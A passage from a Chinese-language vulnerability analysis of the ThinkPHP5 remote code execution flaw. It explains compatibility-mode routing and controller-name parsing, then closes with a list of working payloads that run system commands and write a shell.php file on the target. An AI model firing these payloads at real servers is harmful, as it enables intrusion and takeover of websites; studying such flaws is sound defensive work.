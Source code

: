         }

        // 调用 parseClass 方法生成完整的类名
        $class = self::parseClass($module, $layer, $name, $appendSuffix);
    }

    return [$module, $class]; // 返回模块名称和完整类名
}
```

可以看到如果name带有\符号那就回直接返回。现在我们来看看

**兼容模式**



如果我们直接访问`http://127.0.0.1/public/index.php/\index/\evil/\hello`的话，http协议就会给我们转义掉了。那就没办法在类名中加入反斜线了，这时候我们就要想到thinkphp的兼容模式。

这里就简单介绍一下，这个兼容模式是默认开启的，并且参数默认也是s。

其作用就是假如访问`http://127.0.0.1/public/index.php?s=index/evil/hello`，它的效果和`http://127.0.0.1/public/index.php/index/evil/hello`的效果是一样。用兼容模式去访问的话，就不会被http转义掉我们的反斜线了。

![](/images/ThinkPHP5-rce-analysic/33.png)

如下

![](/images/ThinkPHP5-rce-analysic/34.png)

现在我们再去在参数中加入反斜线

![](/images/ThinkPHP5-rce-analysic/35.png)

成功把`app\index\controller\Evil`变成`\evil`了。

#### 继续

![](/images/ThinkPHP5-rce-analysic/36.png)

刚才说到，我们已经成功把class变成\evil了。就是说我们原来只能去controller里面的东西，现在我们已经绕出来了。

为了包含我们想要的rce的类，这里要说一说php反射的一个点。**php反射只能操作已经声明的类。这是因为反射是基于运行时的元数据来工作的，如果类尚未声明，自然不存在元数据供反射机制使用。**

这里我们就可以在idea的控制台使用`get_declared_classes()`来获取所有已经声明的类

![](/images/ThinkPHP5-rce-analysic/37.png)

![](/images/ThinkPHP5-rce-analysic/38.png)

由于是分析漏洞，我们就不一个一个找了，看这里的一个https://github.com/Mochazz/ThinkPHP-Vuln/blob/master/ThinkPHP5/ThinkPHP5%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E4%B9%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C9.md

payload里面用的类来进行分析。

![](/images/ThinkPHP5-rce-analysic/39.png)

```
?s=index/\think\Request/input&filter[]=system&data=pwd
?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>
?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```

```